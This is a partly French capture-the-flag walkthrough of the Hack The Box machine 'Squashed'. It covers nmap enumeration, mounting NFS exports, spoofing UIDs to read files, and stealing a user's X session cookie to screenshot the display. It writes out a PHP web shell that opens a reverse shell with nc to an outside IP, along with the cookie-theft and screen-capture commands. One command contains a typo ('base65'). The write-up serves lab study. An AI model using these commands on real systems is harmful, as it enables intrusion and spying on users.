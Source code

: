 # Enum
# nmap
```
PORT      STATE    SERVICE          VERSION
22/tcp    open     ssh              OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp    open     http             Apache httpd 2.4.41 ((Ubuntu))
|http-server-header: Apache/2.4.41 (Ubuntu)
|http-title: Built Better
100/tcp   filtered newacct
111/tcp   open     rpcbind          2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      36561/udp6  mountd
|   100005  1,2,3      44767/tcp   mountd
|   100005  1,2,3      48893/tcp6  mountd
|   100005  1,2,3      57344/udp   mountd
|   100021  1,3,4      36230/udp6  nlockmgr
|   100021  1,3,4      36777/udp   nlockmgr
|   100021  1,3,4      38537/tcp6  nlockmgr
|   100021  1,3,4      39647/tcp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
668/tcp   filtered mecomm
1073/tcp  filtered bridgecontrol
1147/tcp  filtered capioverlan
2049/tcp  open     nfs              3-4 (RPC #100003)
2100/tcp  filtered amiganetfs
2492/tcp  filtered groove
6003/tcp  filtered X11:3
6669/tcp  filtered irc
9111/tcp  filtered DragonIDSConsole
19283/tcp filtered keysrvr
32768/tcp filtered filenet-tms
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

┌──(zelofane㉿Zelofane)-[~]
└─$ sudo nmap -sSUC -p111 10.129.228.109
```
	Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-26 11:44 UTC
	Nmap scan report for 10.129.228.109 (10.129.228.109)
	Host is up (0.14s latency).
	PORT    STATE SERVICE
	111/tcp open  rpcbind
	| rpcinfo:
	|   program version    port/proto  service
	|   100000  2,3,4        111/tcp   rpcbind
	|   100000  2,3,4        111/udp   rpcbind
	|   100003  3           2049/udp   nfs
	|   100003  3,4         2049/tcp   nfs
	|   100005  1,2,3      44767/tcp   mountd
	|   100005  1,2,3      57344/udp   mountd
	|   100021  1,3,4      36777/udp   nlockmgr
	|   100021  1,3,4      39647/tcp   nlockmgr
	|   100227  3           2049/tcp   nfs_acl
	|_  100227  3           2049/udp   nfs_acl
	111/udp open  rpcbind
	| rpcinfo:
	|   program version    port/proto  service
	|   100000  2,3,4        111/tcp   rpcbind
	|   100000  2,3,4        111/udp   rpcbind
	|   100003  3           2049/udp   nfs
	|   100003  3,4         2049/tcp   nfs
	|   100005  1,2,3      44767/tcp   mountd
	|   100005  1,2,3      57344/udp   mountd
	|   100021  1,3,4      36777/udp   nlockmgr
	|   100021  1,3,4      39647/tcp   nlockmgr
	|   100227  3           2049/tcp   nfs_acl
	|_  100227  3           2049/udp   nfs_acl
```

# Exploit possible
## *Can exploit nfs service*
└─# 
```
showmount -e 10.129.228.109
```
	Export list for 10.129.228.109:
	/home/ross    *
	/var/www/html *
└─# 
```
mount 10.129.228.109:/var/www/html /mnt/htb -t nfs -o nolock -o v3
```
└─# ll
drwxr-xr-- 5 *2017* www-data 4096 Jun 26 17:40 htb_html
_UID = 2017 : c'est intéressant_ 

└─# ll htb_html                                                            
```
	ls: cannot access '/mnt/htb/index.html': Permission denied
	ls: cannot access '/mnt/htb/images': Permission denied
	ls: cannot access '/mnt/htb/css': Permission denied
	ls: cannot access '/mnt/htb/js': Permission denied
	total 0
	?????????? ? ? ? ?            ? css
	?????????? ? ? ? ?            ? images
	?????????? ? ? ? ?            ? index.html
	?????????? ? ? ? ?            ? js
```
_Donc je dois avoir les droit_
└─#
```
mount 10.129.228.109:/home/ross /mnt/htb_ross
```
└─# ll /mnt/htb_ross                                                         
```
	total 32
	drwxr-xr-x 2 1001 1001 4096 Oct 21  2022 Desktop
	drwxr-xr-x 2 1001 1001 4096 Oct 21  2022 Documents
	drwxr-xr-x 2 1001 1001 4096 Oct 21  2022 Downloads
	drwxr-xr-x 2 1001 1001 4096 Oct 21  2022 Music
	drwxr-xr-x 2 1001 1001 4096 Oct 21  2022 Pictures
	drwxr-xr-x 2 1001 1001 4096 Oct 21  2022 Public
	drwxr-xr-x 2 1001 1001 4096 Oct 21  2022 Templates
	drwxr-xr-x 2 1001 1001 4096 Oct 21  2022 Videos
```

└─# ll *
```
	Desktop:
	total 0
	
	Documents:
	total 4
	-rw-rw-r-- 1 1001 1001 1365 Oct 19  2022 Passwords.kdbx
	[...]
```
*les fichiers .kdbx de v4 ne sont pas cassables*
## *Access aux dossiers htb_html*
### Creat new user whith UID = 2017
### Create shell.php in htb_html as new user
$ cd /mnt/htb_html
```
echo '<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.21 1234 >/tmp/f"); ?>' > shell.php
```

# FootHold
## _ross imitation_
└─#(local)  
```
useradd zelo1
```
```
usermod -u 1001 zelo1
```
```
groupmod -g 1001 zelo1
```

zelo1@Zelofane:/mnt/htb/htb_ross$ ls -la
```
	drwxr-xr-x 14 zelo1 docker 4096 Jun 26 11:16 .
	drwxr-xr-x  4 root  root   4096 Jun 26 21:55 ..
	lrwxrwxrwx  1 root  root      9 Oct 20  2022 .bash_history -> /dev/null
	drwx------ 11 zelo1 docker 4096 Oct 21  2022 .cache
	drwx------ 12 zelo1 docker 4096 Oct 21  2022 .config
	drwxr-xr-x  2 zelo1 docker 4096 Oct 21  2022 Desktop
	drwxr-xr-x  2 zelo1 docker 4096 Oct 21  2022 Documents
	drwxr-xr-x  2 zelo1 docker 4096 Oct 21  2022 Downloads
	drwx------  3 zelo1 docker 4096 Oct 21  2022 .gnupg
	drwx------  3 zelo1 docker 4096 Oct 21  2022 .local
	drwxr-xr-x  2 zelo1 docker 4096 Oct 21  2022 Music
	drwxr-xr-x  2 zelo1 docker 4096 Oct 21  2022 Pictures
	drwxr-xr-x  2 zelo1 docker 4096 Oct 21  2022 Public
	drwxr-xr-x  2 zelo1 docker 4096 Oct 21  2022 Templates
	drwxr-xr-x  2 zelo1 docker 4096 Oct 21  2022 Videos
	lrwxrwxrwx  1 root  root      9 Oct 21  2022 .viminfo -> /dev/null
	-rw-------  1 zelo1 docker   57 Jun 26 11:16 .Xauthority
	-rw-------  1 zelo1 docker 2475 Jun 26 11:16 .xsession-errors
	-rw-------  1 zelo1 docker 2475 Dec 27 15:33 .xsession-errors.old
```
## *stealing X cookie*
[zelo1@Zelofane:/mnt/htb/htb_ross$ ]
```
cat .Xauthority | base64
```
```
AQAADHNxdWFzaGVkLmh0YgABMAASTUlULU1BR0lDLUNPT0tJRS0xABAxPV7JYeXe7VJkENX3doSg
```

[alex@squashed:/home/ross/Documents$ ]
```
echo "AQAADHNxdWFzaGVkLmh0YgABMAASTUlULU1BR0lDLUNPT0tJRS0xABAxPV7JYeXe7VJkENX3doSg" | base65 -d > /tmp/.Xauthority
```
[alex@squashed:/home/ross/Documents$]
```
export XAUTHORITY=/tmp/.Xauthority
```
[alex@squashed:/home/ross/Documents$] w 
```
22:44:21 up 11:28,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               11:16   11:28m  1:35   0.03s /usr/libexec/gnome-session-binary --systemd --session=gnome
```

[alex@squashed:/home/ross/Documents$] (screenshot of displaying session)
```
xwd -root -screen -silent -display :0 > /tmp/screen.xwd
```